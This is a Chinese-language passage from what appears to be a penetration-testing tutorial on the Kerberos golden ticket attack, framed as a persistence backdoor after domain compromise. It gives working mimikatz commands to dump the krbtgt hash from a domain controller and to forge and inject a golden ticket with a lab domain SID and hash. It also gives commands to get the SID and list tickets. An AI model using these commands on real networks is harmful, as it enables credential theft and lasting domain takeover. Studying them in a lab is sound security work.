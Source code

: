 *   4.任意域用户名
    

  

制作TGT票据需要获取Krbtgt账户的密码hash，而Krbtgt账户的密码hash存储在域控上。因此黄金票据攻击测试本身就是个无解的死循环，所以他并不是一种普通的攻击方式，该攻击方式其实是一种后门的形式，属于第二次进行攻击的方法，第一次拿到域管权限之后，需要将krbtgt hash进行保存，当第二次再来进行渗透攻击时，我们就可以使用该hash制作黄金票据，从而获得管理员权限。当然也可以通过抓取/嗅探等方式获取krbtst的hash进行常规的攻击。  

```
`klist             #查看当前拥有的票据``klist purge     #清空票据`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

* * *

  

**1.****获取票据伪造所需要的TGT信息**。**获取krbtst的hash，这里是直接在域控里面看的。实际情况就是上面说的无解死循环**  

```
mimikatz.exe "privilege::debug" "lsadump::lsa /patch" exit > 1.txt
```

```
![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)
```

  

**2.获取域的sid信息：在已经拿下的域主机获取执行命令**

```
whoami /all
```

```


得到：S-1-5-21-4065905668-3814866385-3259433788

  



```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

**3.mimikatz工具伪造黄金票据：**

```
`mimikatz.exe "kerberos::golden /user:win7 /domain:safe-duck.com /sid:S-1-5-21-4065905668-3814866385-3259433788 /krbtgt:c4af830cd0ee19d893c652a3ad9f88b7 /ptt" exit``#伪造成功，查看票据``klist`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)
